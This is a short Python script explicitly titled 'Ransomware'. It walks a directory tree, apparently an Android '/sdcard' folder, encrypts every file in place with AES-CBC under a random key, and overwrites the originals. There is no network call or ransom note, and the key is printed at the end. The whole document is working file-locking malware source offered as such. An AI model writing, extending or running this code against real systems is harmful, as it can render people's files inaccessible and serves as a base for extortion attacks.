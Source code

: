 # Ransomwareimport os
import secrets
from cryptography.hazmat.primitives import padding
from cryptography.hazmat.primitives.ciphers import Cipher, algorithms, modes
from cryptography.hazmat.backends import default_backend

def encrypt_file(file_path, key, iv):
    """
    Encrypts a single file using AES-CBC.

    Args:
        file_path: Path to the file to encrypt.
        key: Encryption key.
        iv: Initialization vector.

    Returns:
        True if encryption was successful, False otherwise.
    """
    try:
        with open(file_path, 'rb') as file:
            data = file.read()

        cipher = Cipher(algorithms.AES(key), modes.CBC(iv), backend=default_backend())
        encryptor = cipher.encryptor()

        padder = padding.PKCS7(128).padder()
        padded_data = padder.update(data) + padder.finalize()

        encrypted_data = encryptor.update(padded_data) + encryptor.finalize()

        with open(file_path, 'wb') as file:
            file.write(iv + encrypted_data)

        return True
    except Exception as e:
        print(f"Error encrypting file {file_path}: {str(e)}")
        return False

def encrypt_directory(directory_path, key):
    """
    Encrypts all files within a directory and its subdirectories.

    Args:
        directory_path: Path to the directory to encrypt.
        key: Encryption key.

    Returns:
        Number of files successfully encrypted.
    """
    encrypted_count = 0
    for root, _, files in os.walk(directory_path):
        for file in files:
            file_path = os.path.join(root, file)
            iv = secrets.token_bytes(16)  # Generate a new IV for each file
            if encrypt_file(file_path, key, iv):
                encrypted_count += 1
    return encrypted_count

def generate_random_key(length=32):
    """
    Generates a random key of the specified length.

    Args:
        length: Length of the key in bytes (default: 32).

    Returns:
        Randomly generated key.
    """
    return secrets.token_bytes(length)

if __name__ == "__main__":
    directory_path = '/sdcard/MyFiles'  # Replace with the actual directory path
    if not os.path.exists(directory_path):
        print(f"Directory {directory_path} does not exist.")
    else:
        key = generate_random_key()
        encrypted_count = encrypt_directory(directory_path, key)
        print(f"Encryption complete. {encrypted_count} files encrypted.")
        # Store the key securely (e.g., in a password manager)
        print(f"Encryption key: {key.hex()}")
